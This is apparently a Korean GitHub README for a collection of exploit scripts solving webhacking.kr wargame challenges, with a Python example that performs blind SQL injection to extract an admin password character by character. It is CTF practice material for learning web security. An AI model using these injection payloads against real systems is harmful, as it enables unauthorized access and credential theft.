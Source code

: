 # webhacking.kr Code :computer:
webhacking.kr 문제들을 해결한 exploit 코드들이 있습니다.
(Python 위주)


## 문제 목록 :unlock:
- [X] old04
- [X] old33-1
- [X] old33-3
- [X] old33-4
- [X] old33-5
- [X] old33-8
- [X] old33-7
- [X] old33-9
- [X] old21
- [X] old33-10.php
- [X] old33-2
- [X] old33-6
- [X] old32


## 예시 코드 :clipboard:
```python
import requests

url = 'https://webhacking.kr/challenge/bonus-1/index.php'
cookie = {"PHPSESSID": "본인 쿠키값 대입"}  # 세션 유지를 위한 쿠키값 대입

def find_password_length():
    for length in range(31, 40):  # 비밀번호 길이가 30보다 크고 40보다 작음을 알 수 있음 
        payload = f"?id=admin&pw=' or id='admin' and length(pw)={length} -- "  # URL에 대입하는 값 (길이 반복), '--' 부분은 sql에서 주석을 뜻한다.
        res = requests.get(url + payload, cookies=cookie)  # URL + payload를 통해 PHP?=id~로 시작함
        if "wrong password" in res.text:  # 만약 조건이 틀리면 "wrong password"를 출력함 [우리에게는 참인 결과임]
            return length
        
#find_length_password = find_password_length()
#print("Found password length : ",find_length_password)

def find_password():
    password = "" #비밀번호를 담을 빈 문자열 생성
    password_length = find_password_length() #find_password_length() 호출
    for position in range(1, password_length + 1): #첫번째 자리에서 아스키 코드로 확인 후 두번째 자리로 넘어가 똑같이 확인 
        for ascii_code in range(33, 127):  # ASCII printable 문자 범위 설정 (공백 포함)
            payload = f"?id=admin&pw=' or id='admin' and ascii(substr(pw, {position}, 1)) = {ascii_code} -- " #substr() 함수는 위치를 찾는것이다 , 위치를 찾아 ascii 변환 후 비교후 대입
            res = requests.get(url + payload, cookies=cookie)
            if "wrong password" in res.text:  # 만약 참인 경우 -> "wrong password"이 출력되니
                password += chr(ascii_code)
                print("Found partial password:", password)
                break
    return password

found_password = find_password()
print("Found Password:", found_password)

```
